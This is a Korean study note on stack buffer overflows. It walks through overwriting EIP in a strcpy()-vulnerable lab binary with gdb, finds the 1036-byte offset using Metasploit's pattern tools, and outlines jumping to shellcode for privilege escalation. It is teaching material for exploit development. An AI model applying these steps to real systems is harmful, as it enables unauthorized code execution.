



# EIP 제어

버퍼 오버플로우에서 핵심은 **EIP(Instruction Pointer)를 우리가 원하는 값으로 덮는 것**이다. 이 과정을 시각적 흐름과 함께 단계별로 정리한다.

---

## 메모리 구조 이해

- 리눅스 메모리는 `.text`, `.data`, `.bss`, Heap, Stack 순으로 구성됨
- Stack은 높은 주소에서 낮은 주소로 성장하고, 우리가 조작할 수 있는 주요 공간임



---

## strcpy()로 EIP까지 덮기

- 취약한 함수인 `strcpy()`는 길이 제한 없이 문자열을 복사해줌
- 이로 인해 스택을 초과하는 입력이 들어가면 EBP, EIP까지 침범할 수 있음
- 아래 실습에서는 1200개의 'U'(`\x55`)를 입력하여 EIP를 덮는 실험을 진행함

```bash
(gdb) run $(python -c "print '\x55' * 1200")
```

- 결과적으로 EBP와 EIP 모두 `0x55555555`로 덮임
- `info registers` 명령어로 확인 가능

```bash
(gdb) info registers
...
ebp            0x55555555
...
eip            0x55555555
```



---

## 정확한 offset 찾기 (EIP까지 몇 바이트?)

- Metasploit의 `pattern_create.rb`로 고유한 패턴 문자열을 생성함.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

- 이 문자열을 입력해보면, EIP가 무작위 패턴 주소(`0x69423569`)로 덮인다.

```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3...'")
```

- 해당 값을 `pattern_offset.rb`로 역산하여 정확한 offset을 계산한다.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

- 즉, 정확히 1036 바이트를 입력하면 **EIP 바로 전까지 도달**할 수 있다.



---

## EIP에 원하는 주소 덮기 테스트

- 이제 우리가 EIP를 완전히 제어할 수 있음을 검증해보자

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

- EIP가 정확히 `0x66666666`으로 덮이면 성공!

```bash
(gdb) info registers
...
eip            0x66666666
```

---

## 요약

- offset까지는 정확히 `"A" * 1036` 등으로 채우고, 그 다음 4바이트를 덮어서 EIP 제어
- 이후에는:

  - 스택의 쉘코드 위치를 파악해
  - EIP를 그 주소로 덮으면
  - 쉘코드가 실행됨 → **권한 상승 또는 명령 실행** 가능

> EIP를 덮기 위해선 정확한 offset 계산 → 테스트 → 원하는 주소 덮기 → 쉘코드 삽입 순서로 진행하면 된다. 이 과정을 완전히 이해하면 실전 BOF 공격의 기본이 완성된다!

